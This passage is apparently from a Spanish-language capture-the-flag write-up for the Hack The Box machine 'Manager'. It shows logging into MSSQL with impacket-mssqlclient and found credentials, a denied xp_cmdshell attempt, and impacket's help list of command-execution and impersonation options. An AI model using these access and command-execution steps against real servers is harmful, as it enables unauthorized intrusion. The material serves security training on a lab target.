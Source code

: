 Es bueno tener otra opción con la que podamos trabajar contra servicios que nos pueden dar problemas.

Aquí puedes encontrar ejemplos de uso para esta herramienta:
* <a href="https://medium.com/@nantysean/enumerating-a-corporate-network-with-netexec-7be7537b537d" target="_blank">Enumerating a Corporate Network with NetExec</a>

<h2 id="MSSQL">Enumeración de Servicio MSSQL</h2>

Como ya vimos que el usuario y contraseña **operator** se pueden usar en el **servicio MSSQL**, vamos a entrar a este servicio usando la herramienta **mssqlclient de impacket**.

Le indicaremos el dominio, las credenciales válidas y la IP de la máquina víctima:
```bash
impacket-mssqlclient manager.htb/operator:operator@10.10.11.236
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[-] ERROR(DC01\SQLEXPRESS): Line 1: Login failed for user 'operator'.
```
Nos dio un error.

Es posible que esto pueda ocurrir cuando no le indicamos que se debe autenticar para **Windows**:
```sql
impacket-mssqlclient manager.htb/operator:operator@10.10.11.236 -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (MANAGER\Operator  guest@master)>
```
Ahora sí nos dejó.

Veamos si podemos ejecutar comandos con **xp_cmdshell**:
```sql 
SQL (MANAGER\Operator  guest@master)> xp_cmdshell "whoami"
ERROR(DC01\SQLEXPRESS): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
```
No podemos.

Podemos buscar qué comandos podemos ejecutar:
```sql 
SQL (MANAGER\Operator  guest@master)> help

    lcd {path}                 - changes the current local directory to {path}
    exit                       - terminates the server process (and this session)
    enable_xp_cmdshell         - you know what it means
    disable_xp_cmdshell        - you know what it means
    enum_db                    - enum databases
    enum_links                 - enum linked servers
    enum_impersonate           - check logins that can be impersonated
    enum_logins                - enum login users
    enum_users                 - enum current db users
    enum_owner                 - enum db owner
    exec_as_user {user}        - impersonate with execute as user
    exec_as_login {login}      - impersonate with execute as login
    xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
    xp_dirtree {path}          - executes xp_dirtree on the path
    sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
    use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
```